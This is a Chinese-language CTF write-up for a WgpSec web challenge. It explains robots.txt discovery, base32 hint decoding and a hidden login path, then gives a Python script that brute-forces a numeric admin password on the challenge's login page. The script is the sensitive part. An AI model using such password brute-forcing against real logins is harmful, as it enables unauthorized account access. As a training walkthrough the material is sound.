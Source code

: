 ```yaml
---
title: WgpSec CTF(web:尝试找到你的小姐姐吧)
date: 2023-5-1
tags:
   - web
categories:
   - ctf
---
```


## 作者的啰嗦
这是作者第一次更新有关ctf题目的文章，那么什么是CTF比赛呢？
CTF是一种流行的信息安全竞赛形式，其英文名可直译为"夺得Flag"，也可意译为"夺旗赛"。其大致流程是，参赛团队之间通过进行攻防对抗、程序分析等形式，率先从主办方给出的比赛环境中得到一串具有一定格式的字符串或其他内容，并将其提交给主办方，从而夺得分数。为了方便称呼，我们把这样的内容称之为"Flag"。
具体的的一些细节，我就不在这里说明了，如果您对CTF感兴趣的话，可以具体找找相关说明。

## 题目的网站
这里是WgpSec CTF官方网站[https://ctf.wgpsec.org](https://ctf.wgpsec.org)，
然后找到web题目:尝试找到你的小姐姐吧

## 开始做题
在正式开始之前，你需要了解如下：
1. 什么是robots协议
2. 电脑已经有了Python环境，并且下载了pip（我的解题思路会用到Python脚本）

## 正式开始
点进去后发现是这样的


![](https://s21.ax1x.com/2024/05/21/pkMtyTJ.md.png)



#### 什么都没有先查看一下源代码：
![](https://s21.ax1x.com/2024/05/21/pkMtsw4.md.png)


他说百度收录不了，那肯定就是robots协议，什么是robots协议呢？
Robots协议（也称为爬虫协议、机器人协议等）的全称是“网络爬虫排除标准”（Robots Exclusion Protocol），网站通过Robots协议告诉搜索引擎哪些页面可以抓取，哪些页面不能抓取。
试着访问/robots.txt:


![](https://s21.ax1x.com/2024/05/21/pkMtrmF.png)
#### 发现一个路径：/readme_hahah.txt，试着访问它：


![](https://s21.ax1x.com/2024/05/21/pkMtBOU.md.png)


#### 这里的信息特别多：
1. 首先用户名是admin
2. 密码是5位的数字
3. 网站的登录网址（被遮盖了一部分）


## base32位解码
#### 将Hint的内容进行base32位解码（网上在线解码即可）：


![](https://s21.ax1x.com/2024/05/21/pkMtImD.md.png)


#### 提示我们用记事本打开最初的那张照片，那我们先右键图片进行下载后打开。可以找到：


![](https://s21.ax1x.com/2024/05/21/pkMto0e.md.png)


#### 这就是登录网址被遮盖的一部分：/7b6ca699

#### 输入网址：[http://web.t.ctf.wgpsec.org/notjustweb/7b6ca699/login.html](http://web.t.ctf.wgpsec.org/notjustweb/7b6ca699/login.html)


![](https://s21.ax1x.com/2024/05/21/pkMtTTH.md.png)


## 脚本爆破
#### 这里作者的方法是用Python进行爆破：
```js
import requests


def num(x):
    mmm = 6 - x
    item1 = ''
    ooo = range(1, mmm)
    for it in ooo:
        item1 += '0'
    return item1


#
url = 'http://web.t.ctf.wgpsec.org/notjustweb/7b6ca699/login.php'
data = {'username': 'admin', 'password': '00000', 'verifycode': '', 'submit': ''}
a = range(0, 10000)
for item in a:
    stritem = str(item)
    newitem = num(len(stritem)) + stritem
    data['password'] = newitem
    r = requests.post(url, data)
    print(r.text + newitem)

```
## 得到flag：
![](https://pic.imgdb.cn/item/664cbd4cd9c307b7e9f2b83c.png)

